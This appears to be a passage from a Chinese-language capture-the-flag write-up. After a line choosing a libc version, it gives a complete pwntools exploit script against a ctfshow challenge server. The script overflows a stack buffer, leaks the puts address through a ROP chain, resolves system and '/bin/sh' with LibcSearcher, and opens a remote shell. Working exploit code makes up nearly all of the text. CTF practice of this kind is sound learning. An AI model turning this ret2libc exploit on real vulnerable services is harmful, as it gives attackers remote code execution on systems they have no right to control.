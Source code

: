 

同理选择：

```
libc6_2.27-0ubuntu2_amd64
```



最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28284

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x400803 
retx_addr = 0x4004fe


offset = b'a'* (0x70 + 0x08)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(ctfshow_addr)

p.recvuntil(b'O.o?')
p.sendline(payload)

p.recvuntil(b'\n')

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)

p.sendline(payload_exp)

p.interactive()
```
